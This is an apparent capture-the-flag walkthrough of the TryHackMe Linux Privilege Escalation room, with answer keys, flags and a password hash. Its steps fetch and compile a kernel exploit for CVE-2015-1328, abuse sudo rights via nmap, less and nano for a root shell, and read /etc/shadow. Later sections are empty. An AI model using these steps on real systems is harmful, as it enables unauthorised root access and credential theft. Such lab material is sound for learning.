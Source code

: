 ![Linux Privilege Escalation Banner](https://assets.tryhackme.com/room-banners/privesc.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/linprivesc/Linux_Privilege_Escalation_Cover.png" alt="Linux Privilege Escalation Logo">
</p>

# Linux Privilege Escalation

This guide contains the answer and steps necessary to get to them for the [Linux Privilege Escalation](https://tryhackme.com/room/linprivesc) room.

## Table of contents

- [Enumeration](#enumeration)
- [Automated Enumeration Tools](#automated-enumeration-tools)
- [Privilege Escalation: Kernel Exploits](#privilege-escalation-kernel-exploits)
- [Privilege Escalation: Sudo](#privilege-escalation-sudo)
- [Privilege Escalation: SUID](#privilege-escalation-suid)
- [Privilege Escalation: Capabilities](#privilege-escalation-capabilities)
- [Privilege Escalation: Cron Jobs](#privilege-escalation-cron-jobs)
- [Privilege Escalation: PATH](#privilege-escalation-path)
- [Privilege Escalation: NFS](#privilege-escalation-nfs)
- [Capstone Challenge](#capstone-challenge)

### Enumeration

1. What is the hostname of the target system?

   ><details><summary>Click for answer</summary>wade7363</details>
   
2. What is the Linux kernel version of the target system?

   ><details><summary>Click for answer</summary>3.13.0-24-generic</details>

3. What Linux is this?

   ><details><summary>Click for answer</summary>Ubuntu 14.04 LTS</details>

4. What version of the Python language is installed on the system?

   ><details><summary>Click for answer</summary>2.7.6</details>

5. What vulnerability seem to affect the kernel of the target system? (Enter a CVE number)

   ><details><summary>Click for answer</summary>CVE-2015-1328</details>

### Automated Enumeration Tools

### Privilege Escalation: Kernel Exploits

1. Find and use the appropriate kernel exploit to gain root privileges on the target system.

   We first need to find the kernel version on this system with `uname -a`.

   KERNEL VERSION

   Then we can look for an exploit for this kernel through Exploit Database for example.

   KERNEL EXPLOIT

   Now we can either download the file from here or locate it on our machine through the file name. 

3. What is the content of the flag1.txt file?

   I will first  rename the file to exploit.c.

   ```cmd
   mv 37292.c exploit.c
   ```

   Then we set up a web server on our machine to deliver the file.

   ```cmd
   python3 -m http.server 8080
   ```

   In the temp folder we can download the exploit.

   ```cmd
   wget 10.18.78.136:8080/exploit.c
   ```

   KERNEL PREPARE
   
   Now we should compile the file.

   ```cmd
   gcc exploit.c -o exploit
   ```

   KERNEL SUCCESS

   Lastly, we need to search for the flag and read it!
   
   ```cmd
   find / -name flag1.txt 2>/dev/null

   cat /home/matt/flag1.txt
   ```

   KERNEL FLAG
   
   ><details><summary>Click for answer</summary>THM-28392872729920</details>
   
### Privilege Escalation: Sudo

1. How many programs can the user "karen" run on the target system with sudo rights?

   We can find that out with: `sudo -l`.

   SUDO PERMISSIONS

   ><details><summary>Click for answer</summary>3</details>

3. What is the content of the flag2.txt file?

   We first locate the flag with:

   ```cmd
   find / -name flag2.txt 2>/dev/null
   ```

   SUDO LOCATION

   To read the flag we can use either `less` or `nano`.

   ```cmd
   sudo less /home/ubuntu/flag2.txt

   sudo nano /home/ubuntu/flag2.txt
   ```

   SUDO FLAG

   P.s. It turned out permission weren't even needed to read the flag..

   ><details><summary>Click for answer</summary>THM-402028394</details>

5. How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

   This can be found on the GTFOBins website whilst searching for nmap.

   ><details><summary>Click for answer</summary>sudo nmap --interactive</details>

6. What is the hash of frank's password?

   To do this we exploit the nmap sudo permissions to read the shadow file.

   ```cmd
   sudo nano /etc/shadow
   ```

   SUDO HASHES

   ><details><summary>Click for answer</summary>$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1</details>
   

### Privilege Escalation: SUID
### Privilege Escalation: Capabilities
### Privilege Escalation: Cron Jobs
### Privilege Escalation: PATH
### Privilege Escalation: NFS
### Capstone Challenge



1. 

   

   ><details><summary>Click for answer</summary></details>
